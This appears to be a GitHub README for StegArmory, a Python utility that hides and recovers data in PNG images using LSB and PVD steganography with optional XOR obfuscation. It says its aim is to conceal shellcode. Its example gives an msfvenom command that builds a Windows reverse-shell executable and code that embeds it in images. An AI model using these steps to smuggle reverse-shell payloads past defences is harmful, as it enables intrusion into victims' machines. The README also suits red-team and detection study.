

# What is StegArmory?
StegArmory is an image-based steganography utility that can be used to embed and extract data from PNG images. StegArmory currently supports least significant bit (LSB) and pixel value differencing (PVD) encoding techniques. StegArmory was meant to embed and extract/execute shellcode payloads from images, though time-constraints didn't allow that feature of the project to be fully developed - this is left as an exercise for the user :)

# Getting Started
Grab the latest release and install the package requirements by running `pip3 -r requirements.txt`. Keep in mind StegArmory was built for Python 3.

The file `handler.py` contains the main method and sets up a bunch of logging gizmos at the start. It also contains a few examples of how to encode and extract data from PNG images using both the LSB and PVD methods. Here are those examples:

### Embed data using LSB method
```python
lsb_embed = processor.LSBProcessor(cover_img)
lsb_embed.embed_payload(payload, output_img_path)
```

### Extract data using LSB method
```python
lsb_extract = processor.LSBProcessor(output_img_path)
lsb_extract.extract_payload(output_payload_path)
```

### Embed data using PVD method
```python
pvd_embed = processor.PVDProcessor(cover_img)
pvd_embed.embed_payload(payload, output_img_path)
```

### Extract data using PVD method
```python
pvd_extract = processor.PVDProcessor(output_img_path)
pvd_extract.extract_payload(output_payload_path)
```

Optionally, a XOR key can be specified as a parameter for both the `embed_payload` and `extract_payload` methods. When embedding a payload, the 1-byte XOR key will be used to XOR each byte of the payload before it is embedded in the cover image. Likewise, the 1-byte XOR key specified when extracting a payload will be XOR'd against each byte of the extracted data before it is saved to disk.

# Examples
Below are two examples of a Metasploit payload being stored in the cover image using the LSB and PVD methods.

### Cover Image A


### Output Image A (LSB encoded)



### Cover Image B


### Output Image B (PVD encoded)


### Steps to Reproduce

1. Generate the stageless reverse shell using Metasploit\'s msfvenom: `msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=5704 -a x86 --platform windows -f exe -o msf-revshell.exe`
2. Update handler.py\'s `main` method to contain the following code after initializing logger (around line 12)
```python
# Uses Cover Image A to produce Output Image A that contains the payload msf-revshell.exe
lsb_embed = processor.LSBProcessor("test/images/panels.png")
lsb_embed.embed_payload("msf-revshell.exe", "test/sample/panels-processed.png")
#
# Uses Output Image A to recover original payload from the image
lsb_extract = processor.LSBProcessor("test/sample/panels-processed.png")
lsb_extract.extract_payload("test/sample/panels-payload.exe")
#
# Uses Cover Image B to produce Output Image B (XOR key = 54) that contains the payload msf-revshell.exe
pvd_embed = processor.PVDProcessor("test/images/car.png")
pvd_embed.embed_payload("msf-revshell.exe", "test/sample/car-processed.png", 54)
#
# Uses Output Image B to recover original payload from the image
pvd_extract = processor.PVDProcessor("test/sample/car-processed.png")
pvd_extract.extract_payload("test/sample/car-payload.exe", 54)
```
3. Run StegArmory: `python3 handler.py`


# Other Notes
Images processed with StegArmory contain an embedded header used during extraction. The header is 16 bytes, and appears as follows:
```
----------------HEADER------------------
| [5 bytes] Magic Bytes -> SAMRH
| [1 byte]  Method -> (LSB | PVD)
| [4 bytes] Payload Size in bits
| [4 bytes] Payload CRC32 Checksum
| [1 byte]  XOR Flag -> [0 | 1]
| [1 byte]  Reserved
----------------------------------------
```


